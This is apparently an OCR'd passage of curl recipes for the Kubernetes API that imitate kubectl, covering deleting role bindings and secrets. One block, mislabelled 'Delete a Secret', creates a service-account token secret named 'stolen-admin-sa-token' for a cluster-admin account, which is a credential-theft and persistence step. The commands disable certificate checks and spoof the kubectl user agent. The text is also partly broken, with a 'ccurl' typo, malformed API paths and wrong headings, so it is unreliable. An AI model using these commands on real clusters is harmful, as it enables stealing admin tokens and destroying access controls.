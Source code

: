 ```bash
    "https://$CONTROL_PLANE_HOST/apis/rbac.authorization.k8s.io/v1/$NAMESPACE/default/rolebindings?fieldManager=kubectl-client-side-apply&fieldValidation=Strict"
```

### Delete a Role Binding

```bash
CONTROL_PLANE_HOST=""
TOKEN=""
NAMESPACE="default"
ROLE_BINDING_NAME=""

curl --path-as-is -i -s -k -X $'DELETE' \
    -H "Host: $CONTROL_PLANE_HOST" \
    -H "Authorization: Bearer $TOKEN" \
    -H $'User-Agent: kubectl/v1.32.0 (linux/amd64) kubernetes/70d3cc9' \
    -H $'Accept: application/json' \
    -H $'Content-Type: application/json' \
    -H $'Content-Length: 35' \
    -H $'Accept-Encoding: gzip, deflate, br' \
    --data-binary $'{\"propagationPolicy\":\"Background\"}\x0a' \
    "https://$CONTROL_PLANE_HOST/apis/rbac.authorization.k8s.io/v1/namespaces/$NAMESPACE/rolebindings/$ROLE_BINDING_NAME"
```

### Delete a Secret

```bash
CONTROL_PLANE_HOST=""
TOKEN=""
NAMESPACE="default"

curl --path-as-is -i -s -k -X $'POST' \
    -H "Host: $CONTROL_PLANE_HOST" \
    -H "Authorization: Bearer $TOKEN" \
    -H $'User-Agent: kubectl/v1.32.0 (linux/amd64) kubernetes/70d3cc9' \
    -H $'Accept: application/json' \
    -H $'Content-Type: application/json' \
    -H $'Content-Length: 219' \
    -H $'Accept-Encoding: gzip, deflate, br' \
    --data-binary $'{\"apiVersion\":\"v1\",\"kind\":\"Secret\",\"metadata\":{\"annotations\":{\"kubernetes.io/service-account.name\":\"cluster-admin-sa\"},\"name\":\"stolen-admin-sa-token\",\"namespace\":\"default\"},\"type\":\"kubernetes.io/service-account-token\"}\x0a' \
    "https://$CONTROL_PLANE_HOST/api/v1/$NAMESPACE/default/secrets?fieldManager=kubectl-client-side-apply&fieldValidation=Strict"
```

### Delete a Secret

```bash
CONTROL_PLANE_HOST=""
TOKEN=""
NAMESPACE="default"
SECRET_NAME=""

ccurl --path-as-is -i -s -k -X $'DELETE' \
   -H "Host: $CONTROL_PLANE_HOST" \
   -H "Authorization: Bearer $TOKEN" \
   -H $'Content-Type: application/json' \
   -H $'Accept: application/json' \
   -H $'User-Agent: kubectl/v1.32.0 (linux/amd64) kubernetes/70d3cc9' \
   -H $'Content-Length: 35' \
   -H $'Accept-Encoding: gzip, deflate, br' \
   --data-binary $'{\"propagationPolicy\":\"Background\"}\x0a' \
   "https://$CONTROL_PLANE_HOST/api/v1/namespaces/$NAMESPACE/secrets/$SECRET_NAME"
```